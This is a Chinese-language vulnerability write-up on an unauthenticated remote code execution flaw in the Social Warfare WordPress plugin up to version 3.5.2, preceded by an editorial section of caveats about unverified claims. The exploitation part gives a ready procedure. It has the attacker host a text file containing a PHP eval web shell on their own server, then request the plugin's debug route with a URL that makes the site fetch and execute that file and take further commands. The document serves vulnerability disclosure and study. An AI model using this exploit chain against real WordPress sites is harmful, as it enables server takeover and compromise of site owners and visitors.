


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=3.5.2 claimed, fixed3.5.3; debug load_options route reachable, remote resource retrievable

- **结论使用边界（1）**：readme存在仅证明文件存在，不足证明插件已启用/路由可达。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（2）**：提供eval和remote-content链但权限/触发源码只截图，需文本补全。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（3）**：无原始公告链接与主CVE，末尾image占位。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（4）**：题内本机3.5.2应区别于完整受影响范围，远程fetch配置前提未述。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# WordPress Plugin - Social Warfare\<=3.5.2 RCE

一、漏洞简介
------------

2019年3月21日插件作者紧急发布了3.5.3版本以修复高危的RCE漏洞，在\<=3.5.2版本中存在一处无需登录即可getshell的RCE漏洞。

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

在/wp-content/plugins/social-warfare/lib/utilities/SWP\_Database\_Migration.php文件中有一处eval()函数，该函数将file\_get\_contents()读取的文件内容当做PHP代码执行导致RCE。

### 漏洞利用

第一步：刺探是否安装了Social Warfare插件

访问

    http://0-sec.org/wp-content/plugins/social-warfare/readme.txt

如果存在readme.txt文件则说明已经安装该插件，并且从该txt文件中可获知插件的版本。

我的本机环境为3.5.2版本。

第二步：在自己的VPS服务器上放置一个code.txt文件，并启动HTTP服务使该文件可通过HTTP访问。文件内容如下：

    <pre>eval($_REQUEST['wpaa'])</pre>

第三步：在未登陆任何账号的情况下直接访问如下链接即可getshell。

    http://0-sec.org/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://your_ip/code.txt&wpaa=phpinfo();

image
